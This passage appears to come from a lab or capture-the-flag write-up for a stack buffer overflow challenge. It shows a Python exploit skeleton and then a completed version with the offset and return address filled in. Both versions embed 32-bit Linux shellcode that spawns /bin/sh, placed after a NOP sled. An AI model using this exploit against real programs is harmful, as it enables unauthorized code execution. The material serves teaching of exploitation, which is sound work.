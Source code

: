 ## Create an exploit

The prepared exploit skeleton is available at the file `challenge11-exploit-skel.py`:
```
#!/usr/bin/python
# Skeleton exploit for challenge11
import sys

shellcode = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"

buf_size = 64
offset = ??

ret_addr = "\x??\x??\x??\x??"

# fill up to 64 bytes
exploit = "\x90" * (buf_size - len(shellcode))
exploit += shellcode

# garbage between buffer and RET
exploit += "A" * (offset - len(exploit))

# add ret
exploit += ret_addr

# print to stdout
sys.stdout.write(exploit)
```


Lets insert the correct values:

```
#!/usr/bin/python
# Skeleton exploit for challenge11
import sys

shellcode = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"

buf_size = 64
offset = 76

ret_addr = "\x36\xd8\xff\xff"

# fill up to 64 bytes
exploit = "\x90" * (buf_size - len(shellcode))
exploit += shellcode

# garbage between buffer and RET
exploit += "A" * (offset - len(exploit))

# add ret
exploit += ret_addr

# print to stdout
sys.stdout.write(exploit)
```
